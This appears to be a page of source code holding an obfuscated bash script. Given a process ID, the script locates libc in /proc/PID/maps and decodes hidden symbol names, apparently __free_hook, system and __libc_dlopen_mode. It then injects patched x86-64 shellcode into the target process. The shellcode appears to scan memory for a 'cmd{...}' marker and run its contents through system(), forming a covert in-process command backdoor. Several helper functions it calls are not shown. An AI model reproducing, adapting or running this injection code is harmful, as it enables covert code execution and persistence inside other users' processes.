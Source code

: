 ```bash linenums="1"
ojeequ9I() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

xeiCh4xi() {
    echo "$1" | base64 -d | gzip -d
}

ia5Uuboh() {
    go7uH1yu="$1"

    ih9Ea1se=$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | head -n 1 | tr -s ' ')
    Teixoo1Z=$((0x$(cut -d '-' -f1 <<< "$ih9Ea1se")))
    cu1eiSe9=$(cut -d ' ' -f6 <<< "$ih9Ea1se")
    eo0oMaeL=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==))))
    de0fie1O=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAAyuuLC5JzQUAixFNyQYAAAA=))))
    EeGie9qu=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA0srSk0FAMjBLk0EAAAA))))
    Eeko2juZ=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA8tNzMnJT44vLU5MykmNL86sSgUA3kc6ChIAAAA=))))
    Iek6Joyo=$((0x$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    HeiSuC5o='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x41\x41\x41\x41\x41\x41\x41\x41' $(roth8Kai $Eeko2juZ))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x42\x42\x42\x42\x42\x42\x42\x42' $(roth8Kai $EeGie9qu))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x43\x43\x43\x43\x43\x43\x43\x43' $(roth8Kai $de0fie1O))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x44\x44\x44\x44\x44\x44\x44\x44' $(roth8Kai $eo0oMaeL))
    Que2vah0=$(echo -ne $HeiSuC5o | wc -c)
    Thee6ahB=$(($Iek6Joyo - $Que2vah0))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x55\x55\x55\x55\x55\x55\x55\x55' $(roth8Kai $Thee6ahB))

    QueSh8yi $go7uH1yu $Thee6ahB $HeiSuC5o
    QueSh8yi $go7uH1yu $eo0oMaeL $(roth8Kai $Thee6ahB)
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

ia5Uuboh $1
```
